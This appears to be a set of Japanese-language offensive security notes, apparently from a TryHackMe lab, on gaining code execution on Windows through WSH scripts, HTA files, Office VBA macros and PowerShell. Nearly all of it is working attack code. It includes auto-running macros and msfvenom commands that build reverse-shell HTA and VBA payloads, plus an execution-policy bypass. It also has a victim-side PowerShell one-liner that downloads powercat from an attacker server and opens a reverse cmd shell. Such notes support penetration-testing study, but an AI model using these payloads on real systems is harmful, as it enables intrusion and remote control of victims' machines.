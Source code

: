 # script

## WSH (Windows Scripting Host)

概念

```shell
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

txt 拡張子でスクリプト実行

```shell
wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```

## HTA (HTML Application)

概念

```html
<html>
  <body>
    <script>
      var c = "cmd.exe";
      new ActiveXObject("WScript.Shell").Run(c);
    </script>
  </body>
</html>
```

venom リバースシェル

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.22.182 LPORT=443 -f hta-psh -o thm.hta
```

metasploit

```shell
use exploit/windows/misc/hta_server
```

## VBA (Visual Basic for Application)

概念

```vbscript
Sub Document_Open()
  CLC
End Sub

Sub AutoOpen()
  CLC
End Sub

Sub CLC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

msfvenom

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba -o vba.txt
```

この出力をマクロエディタに張り付ける。  
※MS Word に適応させるためには、Workbook_Open()を Document_Open()に変更する必要がある。

## PSH (Powershell)

実行ポリシーの変更

```ps
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```

ポリシーのバイパス

```shell
powershell -ex bypass -File poc.ps1
```

### Powercat

kali 側

```shell
git clone https://github.com/besimorhino/powercat.git
cd powercat
python3 -m http.server 8888

nc -lvp 1337
```

被害者側

```shell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attackerip>:8888/powercat.ps1');powercat -c <attackerip> -p 1337 -e cmd"
```
